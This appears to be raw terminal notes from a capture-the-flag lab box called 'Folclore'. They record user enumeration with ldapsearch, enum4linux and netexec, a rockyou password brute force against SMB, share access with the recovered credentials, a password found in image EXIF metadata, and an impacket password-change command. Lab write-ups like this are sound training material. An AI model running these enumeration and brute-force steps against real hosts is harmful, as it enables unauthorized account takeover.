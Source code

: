 ldapsearch -h 192.168.69.9 -x -b "DC=FOLCLORE" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "


enum4linux -U  192.168.69.9  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"







┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ netexec smb 192.168.69.9 -u "guest" -p ""   --rid-brute
SMB         192.168.69.9    445    FOLCLORE         [*] Windows 10 / Server 2019 Build 19041 (name:FOLCLORE) (domain:Folclore) (signing:False) (SMBv1:False) 
SMB         192.168.69.9    445    FOLCLORE         [+] Folclore\guest: (Guest)
SMB         192.168.69.9    445    FOLCLORE         500: FOLCLORE\Administrador (SidTypeUser)
SMB         192.168.69.9    445    FOLCLORE         501: FOLCLORE\Invitado (SidTypeUser)
SMB         192.168.69.9    445    FOLCLORE         503: FOLCLORE\DefaultAccount (SidTypeUser)
SMB         192.168.69.9    445    FOLCLORE         504: FOLCLORE\WDAGUtilityAccount (SidTypeUser)
SMB         192.168.69.9    445    FOLCLORE         513: FOLCLORE\Ninguno (SidTypeGroup)
SMB         192.168.69.9    445    FOLCLORE         1001: FOLCLORE\Quetzalcoatl (SidTypeUser)
SMB         192.168.69.9    445    FOLCLORE         1003: FOLCLORE\El_charro_negro (SidTypeUser)
SMB         192.168.69.9    445    FOLCLORE         1004: FOLCLORE\Ix_Chel (SidTypeUser)
SMB         192.168.69.9    445    FOLCLORE         1005: FOLCLORE\Tlaloc (SidTypeUser)
SMB         192.168.69.9    445    FOLCLORE         1006: FOLCLORE\La_mulata_de_Cordoba (SidTypeUser)
SMB         192.168.69.9    445    FOLCLORE         1007: FOLCLORE\La_Catrina (SidTypeUser)
                                                                                                  







Administrador
Invitado
Quetzalcoatl
El_charro_negro
Ix_Chel
Tlaloc
La_mulata_de_Cordoba
La_Catrina




┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ netexec smb 192.168.69.9 -u "El_charro_negro" -p /usr/share/wordlists/rockyou.txt --continue-on-success --ignore-pw-decoding | grep "STATUS_PASSWORD_EXPIRED"
SMB                      192.168.69.9    445    FOLCLORE         [-] Folclore\El_charro_negro:abc123 STATUS_PASSWORD_EXPIRED 






┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ netexec smb 192.168.69.9 -u "El_charro_negro" -p /usr/share/wordlists/rockyou.txt --continue-on-success --ignore-pw-decoding | grep "STATUS_PASSWORD_EXPIRED"
SMB                      192.168.69.9    445    FOLCLORE         [-] Folclore\El_charro_negro:abc123 STATUS_PASSWORD_EXPIRED 
^C^C
                                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ netexec smb 192.168.69.9 -u "El_charro_negro" -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding | grep "+"                      
^C
                                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ netexec smb 192.168.69.9 -u "El_charro_negro" -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding           
SMB         192.168.69.9    445    FOLCLORE         [*] Windows 10 / Server 2019 Build 19041 (name:FOLCLORE) (domain:Folclore) (signing:False) (SMBv1:False) 
SMB         192.168.69.9    445    FOLCLORE         [-] Folclore\El_charro_negro:abc123 STATUS_PASSWORD_EXPIRED 








➜  Folclore netexec smb 192.168.69.9 -u anonymous -p '' -M spider_plus -o DOWNLOAD_FLAG=true







┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ netexec smb 192.168.69.9 -u El_charro_negro -p 'cuenca12345' --shares  
SMB         192.168.69.9    445    FOLCLORE         [*] Windows 10 / Server 2019 Build 19041 (name:FOLCLORE) (domain:Folclore) (signing:False) (SMBv1:False) 
SMB         192.168.69.9    445    FOLCLORE         [+] Folclore\El_charro_negro:cuenca12345 
SMB         192.168.69.9    445    FOLCLORE         [*] Enumerated shares
SMB         192.168.69.9    445    FOLCLORE         Share           Permissions     Remark
SMB         192.168.69.9    445    FOLCLORE         -----           -----------     ------
SMB         192.168.69.9    445    FOLCLORE         ADMIN$                          Admin remota
SMB         192.168.69.9    445    FOLCLORE         C$                              Recurso predeterminado
SMB         192.168.69.9    445    FOLCLORE         Dia de Muertos                  Al final, todos somos polvo y hueso.
SMB         192.168.69.9    445    FOLCLORE         IPC$            READ            IPC remota
SMB         192.168.69.9    445    FOLCLORE         Libertad                        El secreto está en quien se atreve a buscarlo; sigue tu camino sin miedo.
SMB         192.168.69.9    445    FOLCLORE         Lluvia                          Presta atención, pues en esta imagen el camino se revela sólo a quien sabe escuchar el trueno                                                                                                                                                                               
SMB         192.168.69.9    445    FOLCLORE         Oro             READ,WRITE      ¿Buscas llegar a Quetzalcóatl? Aquí inicia tu camino.
SMB         192.168.69.9    445    FOLCLORE         Santuario                       El Refugio de Ixchel
SMB         192.168.69.9    445    FOLCLORE         Viento                          El viento sagrado ejecutará la tarea a su debido tiempo



┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ smbclient  //192.168.69.9/Oro -U El_charro_negro                 
Password for [WORKGROUP\El_charro_negro]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep 29 17:56:39 2025
  ..                                  D        0  Mon Sep 29 17:56:39 2025
  El_Charro_Negro.jpeg                A    50061  Mon Jul 28 20:40:26 2025

                15581256 blocks of size 4096. 10762905 blocks available
smb: \> get El_Charro_Negro.jpeg 
getting file \El_Charro_Negro.jpeg of size 50061 as El_Charro_Negro.jpeg (118.7 KiloBytes/sec) (average 118.7 KiloBytes/sec)
smb: \> 




 impacket-changepasswd 'Folclore/Ix_Chel':'4+9Ii1wK'@192.168.69.9











──(kali㉿kali)-[~/Documents/Folclore]
└─$ smbclient  //192.168.69.9/Oro -U El_charro_negro                 
Password for [WORKGROUP\El_charro_negro]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Sep 29 17:56:39 2025
  ..                                  D        0  Mon Sep 29 17:56:39 2025
  El_Charro_Negro.jpeg                A    50061  Mon Jul 28 20:40:26 2025

                15581256 blocks of size 4096. 10762905 blocks available
smb: \> get El_Charro_Negro.jpeg 
getting file \El_Charro_Negro.jpeg of size 50061 as El_Charro_Negro.jpeg (118.7 KiloBytes/sec) (average 118.7 KiloBytes/sec)
smb: \> SMBecho failed (NT_STATUS_CONNECTION_RESET). The connection is disconnected now

                                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ exiftool El_Charro_Negro.jpeg                        
ExifTool Version Number         : 13.25
File Name                       : El_Charro_Negro.jpeg
Directory                       : .
File Size                       : 50 kB
File Modification Date/Time     : 2025:09:29 17:57:27-04:00
File Access Date/Time           : 2025:09:29 17:57:28-04:00
File Inode Change Date/Time     : 2025:09:29 17:57:27-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Y Cb Cr Positioning             : Centered
Copyright                       : El camino es largo pero no complicado. Busca a Ix Chel; ella tiene la siguiente pista aqui tienes la clave: 4+9Ii1wK
Image Width                     : 736
Image Height                    : 981
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 736x981
Megapixels                      : 0.722
                                                                                                                                                                                
┌──(kali㉿kali)-[~/Documents/Folclore]
└─$ 
